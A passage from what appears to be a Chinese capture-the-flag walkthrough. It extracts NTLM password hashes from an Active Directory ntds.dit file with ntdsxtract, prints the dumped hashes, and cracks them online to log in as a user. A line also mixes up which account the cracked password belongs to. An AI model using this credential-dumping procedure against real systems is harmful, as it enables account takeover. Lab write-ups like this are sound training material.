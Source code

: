 ```
git clone https://github.com/csababarta/ntdsxtract
cd ntdsxtract
python setup.py build && python setup.py install
```
#### 使用方法：
[video:提取hash](https://blog.didierstevens.com/2016/07/30/video-ntds-dit-extract-hashes-with-secretsdump-py/)

```
esedbexport -m tables ntds.dit 
该命令运行后，会生成一个文件夹，ntds.dit.export

cd ntds.dit.export;ls
可以查看生成了一些文件，注意datatable.3、link_table.5

文件绝对路径: 
1. /root/Desktop/10.10.10.55/ntds.dit.export/datatable.3
2. /root/Desktop/10.10.10.55/ntds.dit.export/link_table.5
3. 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
重命名为SYSTEM

dsusers.py 路径1 路径2 hashdump（生成的文件夹名称） --syshive 文件3 --passwordhashes --lmoutfile lmout.txt --ntoutfile ntout.txt --pwdformat ophc

最终的命令
dsusers.py /root/Desktop/10.10.10.55/ntds.dit.export/datatable.3 /root/Desktop/10.10.10.55/ntds.dit.export/link_table.5 hashdump --syshive SYSTEM --passwordhashes --lmoutfile lmout.txt --ntoutfile ntout.txt --pwdformat ophc

在生成的文件夹hashdump，可以找到ntout.txt

ntout.txt的内容如下
Administrator:::e64fe0f24ba2489c05e64354d74ebd11:S-1-5-21-1036816736-4081296861-1938768537-500::
krbtgt:::ca1ccefcb525db49828fbb9d68298eee:S-1-5-21-1036816736-4081296861-1938768537-502::
atanas:::2b576acbe6bcfda7294d6bd18041b8fe:S-1-5-21-1036816736-4081296861-1938768537-1108::
```
复制2b576acbe6bcfda7294d6bd18041b8fe，在在线密码破解网站[https://crackstation.net/](https://crackstation.net/)

| 用户名 | 密码 |
|---|---|
| Administrator | f16tomcat! |
| atanas | Password123! |
| krbtgt | 破解失败 |

`su atanas`

用`atanas`作为用户名，`f16tomcat!`作为密码，成功获得atanas用户权限

获得user flag`cat ~/user.txt`

## root提权
kali：`python -m SimpleHTTPServer 80`
